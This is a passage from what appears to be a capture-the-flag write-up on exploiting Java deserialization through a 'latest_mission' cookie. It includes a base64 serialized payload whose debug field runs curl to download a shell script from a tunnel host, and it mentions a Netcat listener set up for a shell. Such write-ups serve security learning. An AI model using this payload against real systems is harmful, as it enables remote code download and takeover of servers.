 - ![8.png](./assets/8.png)
```css
rO0ABXNyAB5jb20ueW9nb3NoYS51dGlscy5NaXNzaW9uRGVidWcEJYLPtI0rFwIAAUwABWRlYnVndAASTGphdmEvbGFuZy9TdHJpbmc7eHB0AE5jdXJsIGh0dHBzOi8vc29jaWFsLXBsdW1zLWp1Z2dsZS04Ni0xMDgtMjEtMzkubG9jYS5sdC9zaGVsbC5zaCAtbyAvdG1wL0YzMHMuc2g=
```
- This is the base64 of the serialized MissionDebug object with debug field set to the curl command above
- If you try to decode it you may be able to read some stuff
- ![9.png](./assets/9.png)
- You can see there the class name and debug field with its value
- Visit `/latest_mission` & set the `latest_mission` cookie of the website to the base64 value
- ![10.png](./assets/10.png)
- Now reload the page and check your ngrok/localtunnel activity, it should receive a request to F30s.sh (localtunnel doesn't have a dashboard like ngrok)
- Here is my connections setup to listen to TCP for Netcat and HTTP for F30s.sh download 